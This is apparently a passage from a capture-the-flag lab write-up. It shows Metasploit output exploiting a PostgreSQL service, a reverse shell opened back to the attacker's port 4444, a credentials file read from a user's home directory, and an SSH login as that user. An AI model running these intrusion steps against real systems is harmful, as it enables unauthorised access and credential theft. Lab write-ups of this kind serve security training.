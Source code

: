 ```bash
[*] 10.10.181.37:5432 - Exploiting...
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR dropped successfully
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR created successfully
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR copied successfully(valid syntax/command)
[+] 10.10.181.37:5432 - 10.10.181.37:5432 - YL9S0cxgNdR dropped successfully(Cleaned)
[*] 10.10.181.37:5432 - Exploit Succeeded
[*] Command shell session 1 opened (10.17.7.91:4444 -> 10.10.181.37:52460) at 2021-06-16 15:24:01 +0530

ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Jul 28  2020 .
drwxr-xr-x 22 root   root   4096 Jul 28  2020 ..
drwxr-xr-x  4 alison alison 4096 Jul 28  2020 alison
drwxr-xr-x  2 dark   dark   4096 Jul 28  2020 dark

ls -la /home/dark
total 28
drwxr-xr-x 2 dark dark 4096 Jul 28  2020 .
drwxr-xr-x 4 root root 4096 Jul 28  2020 ..
-rw------- 1 dark dark   26 Jul 28  2020 .bash_history
-rw-r--r-- 1 dark dark  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dark dark 3771 Aug 31  2015 .bashrc
-rwxrwxrwx 1 dark dark   24 Jul 28  2020 credentials.txt
-rw-r--r-- 1 dark dark  655 May 16  2017 .profile

cat /home/dark/credentials.txt
dark:REDACTED
```

---

## Dark User

```bash
ssh dark@10.10.181.37
dark@10.10.181.37's password: 
Last login: Wed Jun 16 03:15:14 2021 from 10.17.7.91
$ ls
credentials.txt
$ whoami
dark
$ cd /home
$ ls
alison  dark
$ cd alison
$ ls 
user.txt
$ cat user.txt  
cat: user.txt: Permission denied
```
